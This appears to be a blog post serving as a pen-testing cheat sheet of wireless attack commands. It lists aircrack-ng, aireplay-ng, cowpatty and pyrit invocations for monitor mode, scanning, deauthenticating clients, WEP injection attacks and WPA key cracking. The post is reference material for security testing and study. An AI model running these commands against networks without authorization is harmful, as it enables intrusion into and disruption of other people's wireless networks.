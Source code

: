 ```yaml
---
title: Attacking Wifi - Commands
categories: [Hacking, Pen Testing, Wireless, Aircrack-ng]
layout: post
---
```

This post will highlight many of the different aircrack-ng commands used in hacking/pen testing wireless networks.  This post does not go into the how, but is more of a reference of the commands and parameters.

* [General](#general)
  * [Monitor Mode](#monitor-mode)

## General

#### Monitor Mode
There are a couple different options for putting your wifi adapter into monitor mode.

> `iw dev <interface> set monitor none`

> `airmon-ng start <interface>`

#### Scanning Networks
Airodump-ng is used to scan for wifi networks and clients that are in the range of your wireless card

> `airodump-ng -c <channel> -w <capture> --wps --band abg --essid <essid> --bssid <bssid> <int>`

The following flags are all optional
* -c <channel> - This will filter your scan to a specific wifi channel
* --wps - This flag will include WPS information for wireless networks found
* -w <capture> - This flag will write the scan results to a file
* --band <bands> - This flag allows you to only scan wifi networks operating on specified bands
* --essid <essid> - This flag will filter the scan to a specific Client
* --bssid <bssid> - This flag will filter the scan to a specific AP

#### Deauthentication Attack
> `aireplay-ng -0 1 -a <ap> -c <client> <int>`

## Cracking

#### IV-based Crack
> `aircrack-ng <capture>`

#### PTW-based Crack
> `aircrack-ng -z <capture>`

#### Word List-based Crack
> `aircrack-ng -w <wordlist> <capture>`

#### Airolib DB Crack
> `aircrack-ng -r <dbName> <capture>`

#### JTR-based Crack
> `john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <essid> -w - <capture>`

## WEP Attacks

#### Fake Authentication
> `aireplay-ng -1 0 -e <essid> -a <ap> -h <you> <interface>`

#### ARP Request Replay Attack
> `aireplay-ng -3 -b <ap> -h <you> <interface>`

#### Interactive Packet Replay Attack
> `aireplay-ng -2 -b <ap> -d ff:ff:ff:ff:ff:ff -f 1 -m 68 -n 86 <interface>`

#### KoreK chopchop attack
> `aireplay-ng -4 -b <ap> -h <you> <interface>`

#### Fragmentaion Attack
> `aireplay-ng -5 -b <ap> -h <you> <interface>`

#### Craft ARP Request Packet**
> `packetforge-ng -0 -a <ap> -h <you> -l <sourceIP> -k <destIP> -y <xorFile> -w <out>`

#### Inject Packet**
> `aireplay-ng -2 -r <packet> <interface>`

#### Fake Shared Key Authentication
> `aireplay -1 -0 -e <essid> -y <captureFile> -a <ap> -h <you> <interface>`

## WPA Attacks

#### coWPAtty Attack 
> `cowpatty -r <capture> -f <wordlist> -2 -s <essid>`

#### Rainbow Table Generation
> `genpmk -f <wordlist> -d <hashesFilename> -s <essid>`

#### Rainbow Table coWPAtty Attack
> `cowpatty -r <capture> -d <hashesFilename> -2 -s <essid>`

#### Pyrit Sniff
> `pyrit -r <interface> -o <capture> stripLive`

#### Pyrit Crack Dictionary
> `pyrit -r <capture> -i <wordlist> -b <ap> attack_passthrough`

#### Pyrit Crack Database
Import Wordlist into Database
> `pyrit -i <wordlist> import_passwords`

Add the ESSID of the Access Point
> `pyrit -e <essid> create_essid`

Generate PMKs for the ESSID
> `pyrit batch`

Launch Pyrit in database mode
> `pyrit -r <capture> -b <ap> attack_db`


